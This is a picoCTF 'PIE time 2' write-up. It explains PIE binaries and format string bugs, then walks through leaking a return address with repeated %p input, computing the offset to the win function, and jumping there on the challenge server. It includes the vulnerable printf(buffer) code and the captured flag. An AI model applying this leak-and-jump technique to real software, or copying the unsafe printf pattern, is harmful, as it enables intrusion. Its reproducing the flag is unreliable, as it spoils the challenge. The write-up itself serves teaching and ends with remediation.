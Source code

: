 # PicoCTF: PIE time 2

## Context

We are provided with a compiled binary and the source code (`vuln` and `vuln.c`), as well as a complimentary server and port to connect to via netcat. We only connect via netcat when we are ready to get the flag. 

When we do `./vuln` we are prompted to enter a name and then an address. If the address is not correct, we segfault:
```text
mms2379@spoc:~/ctf/pie_time2$ ./vuln
Enter your name:name
name
 enter the address to jump to, ex => 0x12345: 0x0
Segfault Occurred, incorrect address.
```

## Background Information: PIE executables and format string vulnerabilities

Executables can come in different forms, notably PIE (position independent executable) and no-PIE. If we compile a PIE executable, it means that that whole chunk of code for the program can be placed anywhere in memory. This enables ASLR (address space layout randomization) which randomizes the memory address of key components of our program, like where its stack, heap, etc. begin. A no-PIE executable's code will be placed at a fixed address. That means that we cannot use ASLR.

Below, I've provided examples of objdumped PIE and no-PIE executables. Note how the no-PIE executable starts at address 0x401000, while the PIE executable starts at 0x1000 so it's able to placed at a random memory address later.

``` text
mms2379@spoc:~/temp/studying/linking2$ objdump -d main-no-pie

main-no-pie:     file format elf64-x86-64


Disassembly of section .init:

0000000000401000 <_init>:
  401000:       f3 0f 1e fa             endbr64 
  401004:       48 83 ec 08             sub    $0x8,%rsp
  401008:       48 8b 05 e9 2f 00 00    mov    0x2fe9(%rip),%rax        # 403ff8 <__gmon_start__@Base>
  40100f:       48 85 c0                test   %rax,%rax
  401012:       74 02                   je     401016 <_init+0x16>
  401014:       ff d0                   call   *%rax
  401016:       48 83 c4 08             add    $0x8,%rsp
  40101a:       c3                      ret
...

```

```text
mms2379@spoc:~/temp/studying/linking2$ objdump -d main-dyn

main-dyn:     file format elf64-x86-64


Disassembly of section .init:

0000000000001000 <_init>:
    1000:       f3 0f 1e fa             endbr64 
    1004:       48 83 ec 08             sub    $0x8,%rsp
    1008:       48 8b 05 d9 2f 00 00    mov    0x2fd9(%rip),%rax        # 3fe8 <__gmon_start__@Base>
    100f:       48 85 c0                test   %rax,%rax
    1012:       74 02                   je     1016 <_init+0x16>
    1014:       ff d0                   call   *%rax
    1016:       48 83 c4 08             add    $0x8,%rsp
    101a:       c3                      ret
  ...

```

A format string vulnerability takes advantage of C's `printf(...)` to leak memory addresses. For example, if a program asks for user input and then prints that input back to the user using `printf(...)`, the user can supply a format string (`%s`, `%lx`, `%p`, etc.) so that their provided information gets printed in that form. Note that this is only possible when the `printf(...)` function **does not** already have a format string specifier. See the example below from OWASP.

``` C
#include  <stdio.h> 
void main(int argc, char **argv)
{
	// This line is safe
	printf("%s\n", argv[1]);

	// This line is vulnerable
	printf(argv[1]);
}
```
`./example "Hello World %p %p %p %p %p %p"` will result in: `Hello World 000E133E 000E133E 0057F000 CCCCCCCC CCCCCCCC CCCCCCCC`.

## Vulnerability

Recall that we are asked to enter a name when we start the program. Let's take a closer look at the source code to see how we parse this user input. (See the full source code at `pie_time2/vuln.c`). We see that `main` calls `call_functions`, which does the user input handling:

```C
void call_functions() {
  char buffer[64];
  printf("Enter your name:");
  fgets(buffer, 64, stdin);
  printf(buffer);

  unsigned long val;
  printf(" enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);

  void (*foo)(void) = (void (*)())val;
  foo();
}

...

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  call_functions();
  return 0;
}
```

In particular, we notice that `printf` looks a little strange: it has no format specifier. My installed Clangd helped me get some information about this:

[image here]

We identify this as a format string vulnerability that may help us get more information. Notably, since we also aren't given the address of main like in PIE time 1, we may be able to use this to get more information about the run-time addresses of `vuln`. 

## Exploitation

I decided to use OWASP's format string vulnerability example on `vuln`:

```
mms2379@spoc:~/ctf/pie_time2$ ./vuln 
Enter your name:%p %p
0x70252070 0xfbad2288
 enter the address to jump to, ex => 0x12345: 0x0
Segfault Occurred, incorrect address.
```

Indeed, we may use this to get some more information. However, we need to know what address we're looking for ahead of time. I headed to `vuln`'s disassembly for more information. (See the full disassembly at `pie_time2/vuln_dump.txt`)

```
0000000000001400 <main>:
    1400:	f3 0f 1e fa          	endbr64 
    1404:	55                   	push   %rbp
    1405:	48 89 e5             	mov    %rsp,%rbp
    ...
    143c:	e8 86 fe ff ff       	call   12c7 <call_functions>
    1441:	b8 00 00 00 00       	mov    $0x0,%eax
    1446:	5d                   	pop    %rbp
    1447:	c3                   	ret    
    1448:	0f 1f 84 00 00 00 00 	nopl   0x0(%rax,%rax,1)
    144f:	00
```

`main` starts at 0x1400 and calls `call_functions` at 0x143c, and the line right after the function call is at 0x1441. Therefore, I decided to look for addresses that might end in these numbers.

```
mms2379@spoc:~/ctf/pie_time2$ ./vuln 
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x600f8ae552a1 0xfbad2288 0x600f8ae552dc (nil) 0x600f8ae552a0 (nil) 0x70f4a581b780 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x7f000a702520 0x7ffdd74ed6e8 0xc6ffdfe5a02e6b00 0x7ffdd74ed5d0 0x600f50bea441 0x1
 enter the address to jump to, ex => 0x12345: 0x0
Segfault Occurred, incorrect address.
```

After printing some more addresses (20, to be exact), I see this address: 0x600f50bea441. This matches the address of the line directly after the `call_functions` call, and it is not as large as the other numbers, so it's likely not a stack address. Let's calculate the difference between 0x1441 and the top of the `win` function: 0x1441 - 0x136a = 0xd7. On the next run of the program, let's try doing the address at the 19th `%p` - 0xd7 to see if that gets us to `win`:

```
mms2379@spoc:~/ctf/pie_time2$ nc rescued-float.picoctf.net 62828
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
0x5a1c306e92a1 (nil) 0x5a1c306e92dd 0x7fffa2f42b10 0x7c 0x7fffa2f86228 0x760d6012a6a0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa20702520 0x5a1c2f1541c0 0x24da89febb514f00 0x7fffa2f42b70 0x5a1c2f154441 (nil)
```

We do: 0x5a1c2f154441 - 0xd7 = 0x5a1c2f15436a

```
mms2379@spoc:~/ctf/pie_time2$ nc rescued-float.picoctf.net 62828
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
0x5a1c306e92a1 (nil) 0x5a1c306e92dd 0x7fffa2f42b10 0x7c 0x7fffa2f86228 0x760d6012a6a0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa20702520 0x5a1c2f1541c0 0x24da89febb514f00 0x7fffa2f42b70 0x5a1c2f154441 (nil) 
 enter the address to jump to, ex => 0x12345: 0x5a1c2f15436a
You won!
picoCTF{p13_5h0u1dn'7_134k_2509623b}
```

## Remediation

The big vulnerability here is the format string vulnerability. It allowed us to leak addresses and therefore go to other functions with some simple calculations. Always use format specifiers in your `printf` statements!

# Sources/Credits

Written by Madalina Stoicov

- https://cs4157.github.io/www/2025-1/lect/17-linking-2.html 
- https://owasp.org/www-community/attacks/Format_string_attack 
